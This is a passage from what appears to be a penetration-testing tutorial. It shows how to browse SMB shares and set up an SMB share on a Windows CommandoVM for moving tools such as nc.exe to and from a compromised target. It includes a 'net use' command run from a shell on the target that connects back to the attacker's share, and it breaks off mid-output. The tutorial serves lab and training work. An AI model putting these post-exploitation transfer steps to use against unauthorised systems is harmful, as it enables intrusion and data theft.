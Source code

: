 
I can use `net use` to connect to shares as well.

#### Explorer

I could also use Windows Explorer. I enter `\\[ip]` into the location bar. For
the first one that denied me access, I get a prompt for creds:

![1555361561609](https://0xdfimages.gitlab.io/img/1555361561609.png)

For the second one above, I get a list of shares:

![1555361673368](https://0xdfimages.gitlab.io/img/1555361673368.png)

### Transport

I also really like [SMB as a transport to and from target](2018-10-11-pwk-
notes-post-exploitation-windows-file-transfers). From Kali, I’d do that with a
temporary SMB server with `smbserver.py`. From Windows, I can set up an actual
SMB share.

#### Setup

First, because I run as administrator in my VM, I want to use a different user
to connect to this share. So I created another user, dummy, in control panel.
I gave dummy a good password.

Next, I created a folder in `c:\` called `share`. I opened the folder
properties, and first, under security, made sure both administrators (me) and
dummy had full control over the folder.

![1555362445818](https://0xdfimages.gitlab.io/img/1555362445818.png)

Then I went into “Sharing” -> “Advanced Sharing” and checked “Share this
folder”. I left the name as “share”, and clicked “Permissions”. I removed all
users, and added dummy:

![1555362515417](https://0xdfimages.gitlab.io/img/1555362515417.png)

Now the share is ready to go. I can drop `nc.exe` or other tools in there I
may want to move to target.

#### Connecting

With a shell on target, I can now connect to the share on CommandoVM with `net
use`. I’ll just make sure to include dummy’s username and password:

    
    
    [hostname]: PS C:\Users\[username]\Documents> net use /u:dummy \\10.10.14.14\share [password]
    The command completed successfully.
    

Now I can check out the share, and copy to and from it:

    
    
    [hostname]: PS C:\Users\[username]\Documents> dir \\10.10.14.14\share
    